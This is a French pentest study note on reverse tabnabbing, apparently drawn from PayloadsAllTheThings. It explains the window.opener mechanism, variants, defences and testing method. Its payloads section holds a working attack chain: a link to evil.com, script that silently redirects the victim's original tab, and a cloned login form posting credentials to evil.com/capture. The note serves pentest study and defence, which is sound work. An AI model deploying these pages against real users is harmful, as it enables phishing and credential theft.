

# 📑 Tabnabbing

> [!info] **En 1 phrase**
> Tabnabbing (reverse tabnabbing) = une page **liée en `target="_blank"`** réécrit la page d'origine
> (via `window.opener`) pour la remplacer par un site de **phishing** pendant que l'utilisateur regarde ailleurs.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Tabnabbing/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Quand un lien ouvre `target="_blank"`, l'objet **`window.opener`** de la nouvelle page pointe vers la
> page d'origine **si `rel="noopener"` est absent**. La nouvelle page peut donc **rediriger la page
> d'origine** silencieusement. Comme l'utilisateur a déjà l'onglet ouvert, il ne regarde pas la barre
> d'adresse et peut re-saisir ses identifiants sur la copie phishing.

---

## ⚙️ Le mécanisme

1. L'attaquant trouve un point où il peut **publier des liens** contrôlés (forum, commentaires,
   profil, champ de description…).
2. Le lien doit avoir :
   - `target="_blank"` (ouverture dans un nouvel onglet) et
   - **pas** de `rel="noopener"` ni `rel="noreferrer"`.
3. La page attaquante exécute `window.opener.location = "https://evil.com"` au chargement
   (ou après un délai).
4. L'utilisateur revient sur son onglet "original" → la page légitime a été remplacée par le phishing.
5. Il se reconnecte → les credentials partent chez l'attaquant.

> [!warning] ⚠️ **Conditions à vérifier**
> `target` contient `_blank` **ET** `rel` ne contient ni `noopener` ni `noreferrer`.
> Sans ces deux conditions, l'attaque échoue (l'opener n'est pas accessible).

---

## 🚀 Payloads

### HTML côté victime (la faille)

```html
<!-- Lien publié par l'attaquant : ouvrir en _blank sans noopener -->
<a href="https://evil.com/fake" target="_blank">Voir la promotion</a>
```

### JS côté attaquant (evil.com/fake)

```html
<!DOCTYPE html>
<html>
<head>
  <title>Promotion</title>
  <script>
    // Redirige l'onglet d'origine vers le phishing
    if (window.opener) {
      window.opener.location = "https://evil.com/login-copy.html";
    }
    // Variante avec délai : moins suspect
    setTimeout(function () {
      if (window.opener) {
        window.opener.location = "https://evil.com/login-copy.html";
      }
    }, 2000);
  </script>
</head>
<body>...contenu attractif pour garder la victime... </body>
</html>
```

### Page de phishing (evil.com/login-copy.html)

```html
<!DOCTYPE html>
<html>
<head>
  <title>Connexion — {Clone du site cible}</title>
</head>
<body>
  <!-- Copie visuelle exacte de la page de login légitime -->
  <form method="POST" action="https://evil.com/capture">
    <input type="text" name="username" placeholder="Identifiant">
    <input type="password" name="password" placeholder="Mot de passe">
    <button type="submit">Se connecter</button>
  </form>
  <!-- Comportement "session expirée" : forcer une reconnexion -->
</body>
</html>
```

---

## 🧩 Variantes

| Variante | Détail |
|---|---|
| **Sans `rel="noreferrer"`** | `rel="noreferrer"` seul **supprime aussi l'opener** (implique noopener) → pas d'attaque |
| **`rel="noopener"` présent** | L'attaque est **impossible** : `window.opener` vaut `null` |
| **Phishing différé** | Redirection après un timer pour que la victime ait le temps de "lire" la page attaquante |
| **Simulation de déconnexion** | Le clone affiche "session expirée, reconnectez-vous" → crédibilité maximale |
| **Multi-step** | Le phishing redirige ensuite vers le vrai site avec un message d'erreur (credential relay) |
| **CSP / X-Frame** | Le clone peut tenter de wrapper le vrai login dans un iframe si pas de `frame-ancestors` |

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **`rel="noopener"`** | LA défense : `window.opener` devient `null` (défaut moderne des navigateurs, à forcer) |
| **`rel="noreferrer"`** | Implique `noopener` + n'envoie pas le Referer → option la plus stricte |
| **CSP** | `default-src 'none'` sur les frames / `navigate-to` limite la navigation des pages tierces |
| **Input validation des liens** | Contrôler les URL soumises, limiter `target="_blank"` côté app |
| **Design systématique** | Template/helper global qui ajoute `rel="noopener noreferrer"` à tout lien externe |
| **Entêtes sécurité** | `Referrer-Policy: no-referrer` (supporte la chaîne) |
| **Audit** | Scanner les `target="_blank"` sans `rel="noopener"` (Burp, grep, linters HTML) |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Méthodo de test**
> - Chercher tous les `target="_blank"` publiables : forums, commentaires, profiles, avatars, liens
>   générés à partir d'entrées utilisateur.
> - Vérifier le contenu de l'attribut `rel` : absence de `noopener` **et** de `noreferrer`.
> - Hoster la page attaquante et tester `window.opener` dans la console avant de conclure.
> - Confirmer par un **callback** (requête au collaborator) quand la victime se reconnecte.

> [!warning] ⚠️ **Pièges**
> - Les navigateurs récents (`noopener` par défaut) **bloquent** l'attaque — la vuln dépend du navigateur de la victime.
> - `rel="noreferrer"` seul est **suffisant** pour bloquer (il implique noopener).
> - Le vol de **session** (cookie) est rare : c'est surtout un **phishing des credentials**.
> - Sans `_blank`, l'opener n'existe pas → pas de tabnabbing (mais XSS/Open Redirect possibles).
> - Ne pas confondre avec l'**Open Redirect** : ici la page reste légitime, seule son URL change.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[Open Redirect|↩️ Open Redirect]]
- [[Clickjacking|🖱️ Clickjacking]]
- [[CSS Injection|🎨 CSS Injection]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Tabnabbing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Tabnabbing/README.md)
